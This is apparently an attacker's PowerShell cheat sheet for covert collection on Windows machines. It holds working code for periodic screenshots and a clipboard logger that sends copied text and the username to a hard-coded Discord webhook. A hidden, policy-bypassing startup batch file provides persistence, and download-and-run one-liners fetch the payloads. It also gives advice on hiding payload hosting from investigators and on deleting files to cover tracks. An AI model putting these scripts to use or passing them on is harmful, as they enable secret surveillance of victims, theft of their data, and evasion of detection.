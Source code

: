 # Collection

## Snapshots

The following script takes a screenshot of the system and saves it to a given path.

You may modify the following script and schedule it to take screenshots every x number of minutes.

*Note: The following script was written by the author.*

```
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")
[void] [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")
$path=$args[0]
function screenshot($path)
{
    $width = 0;
    $height = 0;
    $workingAreaX = 0;
    $workingAreaY = 0;
    $screen = [System.Windows.Forms.Screen]::AllScreens;
    foreach ($item in $screen)
    {
        if($workingAreaX -gt $item.WorkingArea.X)
        {
            $workingAreaX = $item.WorkingArea.X;
        }

        if($workingAreaY -gt $item.WorkingArea.Y)
        {
            $workingAreaY = $item.WorkingArea.Y;
        }

        $width = $width + $item.Bounds.Width;

        if($item.Bounds.Height -gt $height)
        {
            $height = $item.Bounds.Height;
        }
    }

    $bounds = [Drawing.Rectangle]::FromLTRB($workingAreaX, $workingAreaY, $width, $height);
    $bmp = New-Object Drawing.Bitmap $width, $height;
    $graphics = [Drawing.Graphics]::FromImage($bmp);
    $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);
    $bmp.Save($path);
    $graphics.Dispose();
    $bmp.Dispose();
    echo "Image saved !!"
    echo $path
}
echo 'USAGE: ./screenshot.ps1 "C:\Users\Public\image.png"'
screenshot($path)
```

## Keylogger

The powershell scripts posts the clipboard content to the Discord chat when the user presses Ctrl+c or Ctrl+x

- Create a Discord webhook and add it as the value of $hookUrl in the script. [Discord Webhooks](https://discordjs.guide/popular-topics/webhooks.html#what-is-a-webhook)
- Save the following script as update.ps1
- Save update.ps1 to $env:userprofile\AppData\Roaming

```
Add-Type -AssemblyName WindowsBase
Add-Type -AssemblyName PresentationCore

function dischat {

  [CmdletBinding()]
  param (    
  [Parameter (Position=0,Mandatory = $True)]
  [string]$con
  ) 
  
  $hookUrl = 'https://discord.com/api/webhooks/1073180088213970974/yOv89KtG64YMHt20rYTDXrO_a43b7KroOMoZ2JipIHMM5VIjGZ8_ngDs8JMAYEom4kmT'
  
$Body = @{
  'username' = $env:username
  'content' = $con
}


Invoke-RestMethod -Uri $hookUrl -Method 'post' -Body $Body

}


dischat (get-clipboard)

while (1){
    $Lctrl = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::'LeftCtrl')
    $Rctrl = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::RightCtrl)
    $cKey = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::c)
    $xKey = [Windows.Input.Keyboard]::IsKeyDown([System.Windows.Input.Key]::x)

       if (($Lctrl -or $Rctrl) -and ($xKey -or $cKey)) {dischat (Get-Clipboard)}
       elseif ($Rctrl -and $Lctrl) {dischat "---------connection lost----------";exit}
       else {continue}
} 
```

The following is the .bat script to run the powershell script

Save the following script as per.bat

```
@echo off
powershell -Command "& {cd "$env:userprofile\AppData\Roaming"; powershell -w h -NoP -NonI -Ep Bypass -File "update.ps1"}"
pause
```

Then save the bat file into startup programs and run the bat script by double clicking on it.

You can also host the scripts online, download them and run them using the three following commands.

```
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/<your-github>/<your-repor>/main/update.ps1" -OutFile "$env:userprofile\AppData\Roaming\update.ps1" -UseBasicParsing'
powershell -w h -NoP -NonI -Ep Bypass 'Invoke-WebRequest -Uri "https://raw.githubusercontent.com/<your-github>/<your-repor>/main/per.bat" -OutFile "$env:APPDATA\Microsoft\Windows\Start` Menu\Programs\Startup\per.bat" -UseBasicParsing'
Invoke-Expression -Command "& '$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\per.bat'" 

```

Note: as an attacker, you should not be hosting payloads on your github because it will lead to you. You can host the payloads as text on pastebin and modify the code accordingly.


## Zipping files and directories

### Zipping

`Compress-Archive -Path C:\path\to\file\*.jpg -DestinationPath C:\path\to\archive.zip`

### Unzipping

`Expand-Archive -LiteralPath 'C:\Archives\Draft[v1].Zip' -DestinationPath C:\Reference`

## Encryption

### Creating encryption key

```
$EncryptionKeyBytes = New-Object Byte[] 32
[Security.Cryptography.RNGCryptoServiceProvider]::Create().GetBytes($EncryptionKeyBytes)
$EncryptionKeyBytes | Out-File "./encryption.key"
```

### Encrypting file

```
$FileContent = Get-Content ".\file.txt"
$EncryptionKeyData = Get-Content "./encryption.key"
$secureString = ConvertTo-SecureString $FileContent -AsPlainText -Force
$Encrypted = ConvertFrom-SecureString -SecureString $secureString -Key $EncryptionKeyData | Out-File -FilePath "./secret.encrypted"
```

### Decrypting file

```
$EncryptionKeyData = Get-Content "./encryption.key"
$PasswordSecureString = Get-Content "./secret.encrypted" | ConvertTo-SecureString -Key $EncryptionKeyData
$PlainTextPassword = [System.Runtime.InteropServices.Marshal]::PtrToStringBSTR([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($PasswordSecureString))
$PlainTextPassword | Out-File -FilePath ./plaintext.txt
$PlainTextPassword
```

## Deleting files

You may want to clean up after yourself.

`Remove-Item C:\Test\*.*`
`Remove-Item C:\Users\Public\*.*`


